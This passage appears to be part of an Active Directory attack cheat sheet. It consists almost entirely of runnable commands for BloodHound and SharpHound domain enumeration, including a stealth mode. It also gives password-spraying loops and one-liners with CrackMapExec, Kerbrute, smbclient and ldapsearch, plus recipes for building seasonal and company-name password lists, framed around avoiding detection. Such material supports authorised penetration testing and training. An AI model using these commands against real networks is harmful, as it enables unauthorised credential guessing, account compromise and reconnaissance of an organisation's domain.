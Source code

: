 
### BloodHound Data Collection Enhanced
```bash
# Remote collection from Linux
bloodhound-python -u <username> -p <password> -d <domain> -dc <dc-ip> -ns <dc-ip> -c all --zip

# Alternative collection methods
bloodhound-python -u <username> -p <password> -d <domain> -dc <dc-ip> -c DCOnly
bloodhound-python -u <username> -p <password> -d <domain> -dc <dc-ip> -c Group,LocalAdmin,Session,Trusts

# From Windows with credentials
.\SharpHound.exe -c all --zipfilename bloodhound.zip --domain <domain> --domaincontroller <dc-ip>

# Stealth collection (fewer LDAP queries)
.\SharpHound.exe -c DCOnly --stealth
```

## Authentication Attacks Mastery

### Password Spraying Techniques
```bash
# CrackMapExec password spray
crackmapexec smb <target> -u users.txt -p 'Password123!' --continue-on-success
crackmapexec smb <target> -u users.txt -p passwords.txt --continue-on-success

# Kerbrute password spray (faster, less detection)
kerbrute passwordspray -d <domain> users.txt Password123! --dc <dc-ip>

# Impacket SMB spray  
for user in $(cat users.txt); do 
  echo "Testing $user:Password123!"
  smbclient -L //<target> -U "$user%Password123!" 2>/dev/null && echo "[+] Valid: $user:Password123!"
done

# LDAP authentication testing
for user in $(cat users.txt); do
  ldapsearch -h <dc-ip> -x -D "$user@domain.com" -w "Password123!" -b "DC=domain,DC=com" "(objectclass=user)" dn 2>/dev/null && echo "[+] Valid LDAP: $user:Password123!"
done
```

### Common Password Patterns for Spraying
```bash
# Season/Year based passwords
echo -e "Password123!\nPassword2024!\nPassword2025!\nWinter2024!\nSpring2025!" > passwords.txt

# Company name based (replace CompanyName)
echo -e "CompanyName123!\nCompanyName2024!\ncompanyname123!" >> passwords.txt

# Default patterns
echo -e "Welcome123!\nChangeme123!\nP@ssw0rd\nP@ssword123!" >> passwords.txt
```
